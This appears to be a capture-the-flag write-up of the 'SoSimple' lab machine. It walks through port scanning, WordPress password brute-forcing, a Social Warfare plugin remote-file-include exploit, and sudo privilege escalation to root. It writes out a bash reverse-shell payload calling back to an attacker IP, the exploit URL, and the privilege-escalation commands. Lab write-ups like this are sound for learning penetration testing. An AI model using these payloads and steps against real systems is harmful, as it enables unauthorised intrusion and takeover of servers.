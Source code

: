 # PG Play - SoSimple

#### Ip: 10.10.199.225
#### Name: SoSimple
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ sudo nmap -p-  --min-rate 10000 192.168.188.78
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 12:03 CDT
Nmap scan report for 192.168.188.78
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ sudo nmap -sC -sV 192.168.188.78 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 12:04 CDT
Nmap scan report for 192.168.188.78
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
```

Navigating to the webpage on port 80 we find a basic image:

![site.png](../assets/sosimple_assets/site.png)

And checking out the source code we find a comment:

note.png

Using Feroxbuster we find there is a page running WordPress:

ferox.png

Heading to that page we find a pretty generic WordPress site:

wp.png

Lets use wpscan to enumerate a but more:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ wpscan --url http://192.168.188.78/wordpress/ --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```

Cool looks like we've found two usernames:

users.png

We can also bruteforce max's password using wpscan:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ wpscan --url http://192.168.188.78/wordpress/wp-login.php --usernames max --passwords /usr/share/wordlists/rockyou.txt

<snip>

[!] Valid Combinations Found:
 | Username: max, Password: opensesame
```

Logging into the site and checking out the page source we can see that there is a plugin called social warfare.

source.png

Searching for exploits I find: https://www.exploit-db.com/exploits/46794

Looking at the exploit it seems the path we can exploit is:

```text
wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s
```

path.png

And it also seems we can use this to grab a reverse shell ending in .txt

### Exploitation

Lets create a file with a reverse shell one-liner and save it as payload.txt:

```text
<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.45.197/443 0>&1'")</pre>
```

Now lets set up a python webserver:

```text
python -m http.server 80
```
As well as a netcat listener, and then naviagate to the following url:

http://192.168.188.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.197/payload.txt

Checking our python logs we can confirm the file has been downloaded:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.188.78 - - [15/Aug/2023 12:38:27] "GET /payload.txt?swp_debug=get_user_options HTTP/1.0" 200 -
```

And we also catch a reverse shell back:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.188.78] 35788
bash: cannot set terminal process group (922): Inappropriate ioctl for device
bash: no job control in this shell
www-data@so-simple:/var/www/html/wordpress/wp-admin$ whoami
whoami
www-data
www-data@so-simple:/var/www/html/wordpress/wp-admin$ hostname
hostname
so-simple
```

Once on the target I find a copy of Max's SSH key, so I'll grab that and SSH in as Max for a more stable connection:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ ssh -i id_rsa max@192.168.188.78
```

We can now grag the local.txt flag:

local_flag.png

### Privilege Escalation

Running `sudo -l` to see what can be run with elevated permissions, we find we can run as user steven service with sudo.

We can head over to https://gtfobins.github.io/gtfobins/service/ and see what the syntax is to exploit this:

gtfo.png

Lets run:

```text
max@so-simple:~$ sudo -u steven service ../../bin/sh
$ whoami
steven
```

Nice, that worked! Lets see what steven can run with sudo:

```text
$ sudo -l
Matching Defaults entries for steven on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
```

Trying to inspect that file, we find it doesn't actually exist:

```text
$ cd /opt/tools
/etc/init.d/../../bin/sh: 3: cd: can't cd to /opt/tools
$ ls
bin   cdrom  etc   lib	  lib64   lost+found  mnt  proc  run   snap  swap.img  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
$ cd opt
$ ls
$ ls -la
total 8
drwxr-xr-x  2 steven steven 4096 Sep  3  2020 .
drwxr-xr-x 20 root   root   4096 Aug 14  2020 ..
```

Cool, so we should just be able to create our own file with the same name with a bash shell in it, make it executable, and then we can execute it using sudo, which will give us a root shell.

First, lets get a better prompt with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Then we can run the following:

tools.png

Nice! We're root! Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------
